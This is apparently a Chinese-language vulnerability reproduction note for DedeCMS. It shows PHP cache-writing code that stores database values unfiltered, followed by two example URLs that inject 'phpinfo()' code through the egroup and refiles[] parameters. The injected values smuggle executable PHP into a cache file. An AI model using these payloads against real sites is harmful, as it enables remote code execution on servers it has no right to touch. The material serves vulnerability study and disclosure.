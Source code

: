 ```
            fwrite($fp,"\$em_{$egroup}s['{$nrow['evalue']}'] = '{$nrow['ename']}';\r\n");
            if($issign==-1) $issign = $nrow['issign'];
            if($nrow['issign']==2) $tenum = true;
        }
        if ($tenum) $dsql->ExecuteNoneQuery("UPDATE `#@__stepselect` SET `issign`=2 WHERE egroup='$egroup'; ");
        fwrite($fp,'?'.'>');
        fclose($fp);
        if(empty($issign)) WriteEnumsJs($egroup);
    }
    return '成功更新所有枚举缓存！';
} 
```

可以看到，直接从数据库中读取并写入php文件中，从数据库中取出后并没有经过过滤。

将shell写进数据库中

```
http://0-sec.org/dede/stepselect_main.php?action=addenum_save&ename=123&egroup=;phpinfo();//&islogin=1 
```

![image](../img/00b33706d4d635d7ec6e9855dcbc5fe4.png)

### 复现

因为包含是在同一个文件，所以直接输入

```
http://0-sec.org/dede/sys_verifies.php?action=getfiles&refiles[]=123&refiles[]=\%22;phpinfo();die();// 
```

![image](../img/0075e3e74b819144384c5302192c1e96.png)